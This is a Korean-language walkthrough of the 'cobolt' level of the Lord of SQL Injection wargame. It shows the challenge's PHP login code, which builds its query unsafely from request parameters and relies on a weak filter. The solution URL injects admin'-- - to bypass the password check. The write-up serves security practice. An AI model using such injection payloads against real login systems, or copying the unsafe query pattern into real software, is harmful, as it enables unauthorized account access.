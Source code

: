 Lord of SQL Injection No.2 - cobolt
=============
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
  highlight_file(__FILE__);
?>
```
위 코드에서 알 수 있는 것
-------------
preg_match로 인해 .과()이 id와 pw에 들어가 있으면 No Hack ~_~ 라고 뜨며 문제풀이에 실패하는 것을 알 수있다.
그리고 $result['id']에 admin이 들어가 있으면 문제풀이에 성공하는 것을 알 수 있다.(9번째줄)

문제 풀이법
-------------
1. id값에 admin을 넣어준다.
http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin'-- -
싱글쿼터로 admin에서 받는값을 끝내주고 뒤에 pw를 입력하지 않고 뚫기 위해 주석처리를 해준다.
